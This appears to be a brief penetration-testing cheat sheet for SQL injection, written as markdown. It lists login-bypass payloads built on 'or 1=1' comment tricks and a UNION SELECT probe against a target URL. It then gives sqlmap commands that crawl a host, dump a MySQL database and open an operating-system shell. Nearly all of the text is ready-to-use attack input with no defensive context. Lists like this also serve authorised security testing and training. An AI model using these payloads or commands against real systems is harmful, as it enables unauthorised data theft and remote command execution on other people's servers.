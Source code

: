 # Manual Testing
## Testing for Bypasses:

- `' or 1=1 LIMIT 1 --`
- `' or 1=1 LIMIT 1 -- -`
- `' or 1=1 LIMIT 1#`
- `'or 1#`
- `' or 1=1 --`
- `' or 1=1 -- -`

## Testing for a row:
- `http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8`

# SQLMAP
## sqlmap Crawl
- `sqlmap -u http://172.21.0.0 --crawl=1`

## sqlmap Dump Database
- `sqlmap -u http://172.21.0.0 --dbms=mysql --dump`

## sqlmap Shell
- `sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell`